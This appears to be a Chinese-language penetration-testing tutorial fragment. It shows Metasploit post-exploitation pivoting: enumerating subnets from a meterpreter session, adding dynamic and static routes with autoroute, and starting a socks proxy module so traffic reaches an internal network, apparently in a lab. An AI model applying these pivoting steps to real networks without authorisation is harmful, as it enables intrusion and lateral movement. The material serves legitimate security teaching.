 在获取一个session会话后，获取目标内网相关信息

```
meterpreter > run get_local_subnets

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
Local subnet: 192.168.0.0/255.255.0.0
```

添加路由的方式1：路由添加到每个网段，动态路由

```
meterpreter > run post/multi/manage/autoroute

[!] SESSION may not be compatible with this module.
[*] Running module against web01.blackops.local
[*] Searching for subnets to autoroute.
[+] Route added to subnet 192.168.0.0/255.255.0.0 from host's routing table.

```

添加路由的方式2：配置静态路由，即一次只添加一个网段路由

```
run autoroute –h //帮助命令查询
run autoroute -s 10.0.20.0/24 //静态路由添加
```

添加以后查看路由表

```
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.0.0        255.255.0.0        Session 3

meterpreter >
```

#### socks代理

代理就是在我们的vps开启了一个socks代理，监听vps本地端口，然后再通过这个端口`将流量转给msf`，msf转发给路由，所以能将流量直接带入到内网中

```
msf5: use auxiliary/server/socks4a    //或者   use auxiliary/server/socks5
msf6: use auxiliary/server/socks_proxy
```

先把session1挂起，回到meterpeter

